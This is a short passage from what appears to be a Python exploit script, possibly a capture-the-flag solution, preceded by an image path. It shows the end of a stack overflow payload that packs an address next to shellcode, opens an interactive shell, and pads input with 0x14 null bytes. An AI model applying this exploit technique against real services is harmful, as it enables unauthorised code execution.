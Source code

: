 ```python
            esp + 0x14 - 1, byteorder="little", length=5) + shellcode))
        p.success("Obtained interactive shell")
        conn.interactive()


def prepare(payload):
    return b'\0' * 0x14 + payload


main()

```
